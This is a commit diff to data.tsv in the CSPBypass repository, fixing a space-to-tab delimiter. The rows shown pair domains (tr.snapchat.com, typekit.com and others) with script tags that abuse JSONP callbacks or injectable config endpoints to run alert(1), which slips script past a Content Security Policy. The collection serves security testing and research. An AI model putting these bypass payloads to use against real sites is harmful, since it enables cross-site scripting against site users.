

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update data.tsv
Lol, used a space not a tab

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -181,3 +181,3 @@ tr.indeed.com	<script src="https://tr.indeed.com/m/newjobs?q=&l=&ts=173435872447
 tr.snapchat.com	<script src="https://tr.snapchat.com/config/com/')%7Dcatch(e)%7B%7D%7D()%3balert(1)%2f%2f.js"></script>
-typekit.com <script src="https://typekit.com/api/v1/json/libraries/full?callback=alert"></script>
+typekit.com	<script src="https://typekit.com/api/v1/json/libraries/full?callback=alert"></script>
 udgnoz7mccyaowzp.public.blob.vercel-storage.com	<script src="https://udgnoz7mccyaowzp.public.blob.vercel-storage.com/a-LAZhjxXucrzBiROqCt4bsY3n6srlWP.js"></script>
```
